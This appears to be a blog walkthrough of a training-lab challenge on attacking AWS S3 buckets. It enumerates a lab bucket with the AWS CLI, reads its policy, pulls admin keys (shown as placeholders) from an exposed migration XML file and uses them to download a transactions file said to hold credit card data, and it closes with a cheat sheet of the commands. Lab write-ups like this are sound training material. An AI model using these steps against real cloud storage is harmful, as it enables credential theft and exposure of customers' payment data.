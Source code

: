 ```yaml
---
title: "Intro to AWS & S3 Bucket Attacking"
date: 2025-05-17
draft: false
language: en
featured_image: ../assets/images/posts/s3-bucket-aws.png
summary: A walkthrough of the Intro to AWS Pentesting Attacking S3 Buckets for Credit Card Info
authorimage: ../assets/images/posts/cyber-immuno-fusion.png
categories: Blog
tags: ["AWS Pentesting", "S3", "AWS", "Enumeration"]
---
```

# Introduction & Context

Hey guys! This write-up is for the S3 Bucket attack for Credit Card info, available [here](https://academy.simplycyber.io/l/pdp/introduction-to-aws-pentesting). If you don't know what that is, it's a full course that teaches you how to hack (ethically of course) AWS, using both automated and manual methods. This particular challenge is focused on S3 bucket enumeartion and we're trying to find exposed credit card information. Before starting this lab, make sure you have the lab ready and note your domain:

```html
http://dev.huge-logistics.com
```

This lab I did end up going down a rabbit hole (definitely overthought this one through), but that was a great learning experience. I'll explain my thought process for those because maybe that will end up being useful for a future task (you never know!). Now into the lab!

# Setup

Now that we have some credential, step 1 is to configure a profile. We have all the information from the previous walkthrough video, so it's just a few quick steps

```bash
aws configure --profile pwn
#Access Key: KEY_VALUE
#Secret Key: SECRET_KEY
#Region: us-east-1
#Output format: json
```

# Admin Path Search

Now this section is a bit of a rabbit hole, so expect a bit of rambling here (you could probably skip this section entirely). I started by trying to look at the original bucket with my new profile, maybe I have access to new files perhaps?

```bash
aws s3 ls s3://dev.huge-logistics.com --profile pwn
```

Nope, there was nothing new in there. How about we check the folders there then? I started by looking into `admin` and we found something interesting.

```bash
aws s3 ls s3://dev.huge-logistics.com/admin/ --profile pwn
2023-10-16 08:08:38          0 
2024-12-02 06:57:44         32 flag.txt
2023-10-16 13:24:07       2425 website_transactions_export.csv
```

That csv file probably is the one we're trying to get for this challenge, so I tried to download it with `aws s3 cp s3://dev.huge-logistics.com/admin/website_transactions_export.csv --profile pwn`. But that was forbidden. For now. So maybe it was time for creative thinking perhaps. The two prefixes `cp` and `ls` are standard kali commands, so I thought maybe I could just `cat` the file out. That didn't work either, but the output of the error message was pretty helpful.

```bash
aws s3 cat s3://dev.huge-logistics.com/admin/flag.txt --profile pwn

usage: aws [options] <command> <subcommand> [<subcommand> ...] [parameters]
To see help text, you can run:

  aws help
  aws <command> help
  aws <command> <subcommand> help

aws: error: argument subcommand: Invalid choice, valid choices are:

ls                                       | website                   
cp                                       | mv                        
rm                                       | sync                      
mb                                       | rb                        
presign                     
```

The one that seemed the most interesting was `mv`. From what it seemed I had download permissions in the main bucket but not in the admin section. So what if I moved the flag from the admin to the main and then download it? I tried `aws s3 mv s3://dev.huge-logistics.com/admin/website_transactions_export.csv .. --profile pwn`. And you know what? Permission denied.

At this point, I felt a little stumped. I could not download read or move the file at all. But there were some other commands I could try. I wasn't going to go try each and everyone though, that's too much. But I did take a look at the cheatsheet and found this command `aws s3api get-bucket-policy --bucket [bucket-name]`.

That command would let me see what I could actually do (or not). So I ran `aws s3api get-bucket-policy --bucket dev.huge-logistics.com` and we got a big json response. But the one I got had a bunch of newlines everywhere, so I asked ChatGPT to clean it up. Here's the critical part:

```json
{
        "Sid": "AllowAllExceptAdmin",
        "Effect": "Allow",
        "Principal": {
          "AWS": [
            "arn:aws:iam::794929857501:user/it-admin",
            "arn:aws:iam::794929857501:user/pam-test"
          ]
        },
        "Action": [
          "s3:Get*",
          "s3:List*"
        ],
        "Resource": [
          "arn:aws:s3:::dev.huge-logistics.com",
          "arn:aws:s3:::dev.huge-logistics.com/*"
        ]
      },
      {
        "Sid": "ExplicitDenyAdminAccess",
        "Effect": "Deny",
        "Principal": {
          "AWS": "arn:aws:iam::794929857501:user/pam-test"
        },
        "Action": "s3:*",
        "Resource": "arn:aws:s3:::dev.huge-logistics.com/admin/*"
      }
```

The only principal allowed to get anything from the admin path would be the `it-admin`. I was denied persmission, so I must be `pam-test`. If that's the case, the policy bans me from doing anything on the bucket. So that's a dead end. I have to find a way to become `it-admin`

# Searching the Migration files

If we do a request into this file directory, we see we know have permissions! Run `aws s3 ls s3://dev.huge-logistics.com/migration-files/ --profile pwn` to check yourself. This must have something good. And it seems like it did. There is a file called `test-export.xml`. Now if you don't know **xml** is a form of storing data in an organized matter, kind of like **json**. So if you find a data file in a directory called migration files, you probably have found something. So I ran `aws s3 cp s3://dev.huge-logistics.com/migration-files/test-export.xml . --profile pwn` and we got some sweet credentials!

```xml
<!-- AWS Production Credentials -->
    <CredentialEntry>
        <ServiceType>AWS IT Admin</ServiceType>
        <AccountID>794929857501</AccountID>
        <AccessKeyID>KEYVALUE.</AccessKeyID>
        <SecretAccessKey>SECRETKEY.</SecretAccessKey>
        <Notes>AWS credentials for production workloads. Do not share these keys outside of the organization.</Notes>
```

Don't share those keys!

# Grabbing the credit card details

Start by configuring a profile with those credentials

```bash
aws configure --profile admin
#Access Key: KEYVALUE
#Secret Key: SECRETKEY
#Region: us-east-1
#Output format: json
```

Now let's try to grab that `csv` file we saw earlier using `aws s3 cp s3://dev.huge-logistics.com/admin/website_transactions_export.csv --profile admin`. And we got it! The flag there is for the platform specifically, add it in and grab those points.

Amazing, we managed to go from a single website to compromosing credit card credentials. That's a long ways and it was actually not too bad (ignoring the little rabit hole). But fun indeed!

# Cheat Sheet

To close off, here's a quick summary of the commands we needed to run to complete this module. If you're ever coming back to this and just need that one command, this is the section to check.

```bash
#Start Up
aws configure --profile pwn
	#Pass in values

#Enumeration of admin
aws s3 ls s3://dev.huge-logistics.com --profile pwn
aws s3 ls s3://dev.huge-logistics.com/admin/ --profile pwn
aws s3api get-bucket-policy --bucket dev.huge-logistics.com

#Enumeration of migration
aws s3 ls s3://dev.huge-logistics.com/migration-files/ --profile pwn
aws s3 cp s3://dev.huge-logistics.com/migration-files/test-export.xml . --profile pwn

#New admin profile
aws configure --profile admin
	#Pass in values

#Grabbing the goods!
aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt --profile admin
aws s3 cp s3://dev.huge-logistics.com/admin/`website_transactions_export.csv --profile admin
```
